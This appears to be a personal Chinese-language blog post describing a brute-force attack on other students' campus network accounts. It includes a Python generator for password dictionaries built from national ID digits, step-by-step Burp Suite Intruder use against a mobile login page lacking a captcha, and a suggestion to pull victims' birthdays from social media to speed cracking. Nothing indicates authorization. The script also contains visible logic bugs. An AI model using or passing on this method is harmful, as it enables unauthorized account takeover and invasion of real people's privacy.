 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      My First Post               # 标题 
subtitle:   记一次对校园网账号的爆破 #副标题
date:       2019-05-18              # 时间
author:     Von                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Practice
---
```

前言
---
  上个星期开始就试图对校园网账号进行爆破。当出现验证码后试图用tesserocr对其进行识别继续爆破。然而发现简单的识别识别不出来。本来tesserocr支持
机器学习，然而由于我的菜一直没搞懂，工程本来就此停滞。但是后来在手机上查询校园网流量余额时偶然发现查询流量的网站在移动端居然没有验证码验证。于
是想到可以对移动端进行抓包然后进行爆破。

准备工作
---
  由于校园账号的默认密码是身份证后六位。而身份证后六位的前两位是生日，倒数第二位是性别识别码。所以根据不同的人来生成不同的字典可以大大地提高
速度。由下我写了个python脚本可以根据不同的用户输入生成不同的字典。
```python
def Fun(birthday = '',gender = ''):
	File = 'DICT.txt'
	num = 0
	with open(File,'w') as f:
		if birthday :
			if gender :
				for i in range(0,100):
					STR1 = birthday.zfill(2) + str(i).zfill(2)
					if gender == 'Male':
						for j in range(1,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
					else:
						for j in range(0,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
			else :
				for i in range(0,1000):
					STR1 = birthday.zfill(2) + str(i).zfill(3)
					for j in range(0,10):
						STR2 = (STR1 + str(j) + '\n')
						num += 1
					f.write(STR1 + 'X' + '\n')
					num += 1
		else:
			if gender :
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,100):
						STR2 = STR1 + str(j).zfill(2)
						if gender == 'Male':
							for k in range(1,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
						else:
							for k in range(2,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
							
			else:
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,1000):
						STR2 = STR1 + str(j).zfill(3)
						for k in range(0,10):
							f.write(STR2 + str(k) + '\n')
							num += 1
						f.write(STR2 + 'X' + '\n')
						num += 1
	print('Dictionary generation was successful with a total number of '+str(num))
					
	
if __name__=='__main__':
	day = input('Please input the day: ')
	gender = input('Please input the gender(Male or Female): ')
	Fun(day,gender)	
```

实战爆破
---
  首先我们使用burpsuite对移动端进行抓包。关于对移动端进行抓包这里不做赘述（原理就是在同个局域网中让手机挂上PC端的代理）。然后让手机访问查询
校园网流量的网站[10.255.44.1:8800](10.255.44.1:8800).抓包所得结果如下:
![](http://VonLYC.github.io/img/BLOG1.png)
  我们可以看出，账号密码是进行明文传输，这给我们的工作提供了便利。我们右键，将其send to intruder.在Positions中将password添加为一个攻击点。
![](http://VonLYC.github.io/img/BLOG2.png)
  再在Payloads中选择我们生成的字典。
![](http://VonLYC.github.io/img/BLOG3.png)
  再在Options中选择线程(Professional版好像默认为5)。之后就可以Start Attack了。
![](http://VonLYC.github.io/img/BLOG4.png)
  接下来的事我们就只需要让burp suite自动完成了。我们只需要在Length中筛选出与其他不同的一项，其所对应的payload就是用户的密码。
![](http://VonLYC.github.io/img/BLOG5.png)
  一般来说,如果我们知道要破解账号的生日的话，生成的字典只有5500个payload，这样一般5分钟内可以得出密码。而如果不知道对方的生日，生成的字典的
payload则有100000+个，一般就需要1，2个小时才可以得出密码。所以如果结合社会工程学从对方QQ之类的东西获取到对方的生日则可以大大的提高效率。

总结
---
  这是我写的第一篇博客，技术含量不高。纯粹是为了记录一下这项小Practice。希望以后能够通过不断的学习正确多更一些高质量的文章吧。





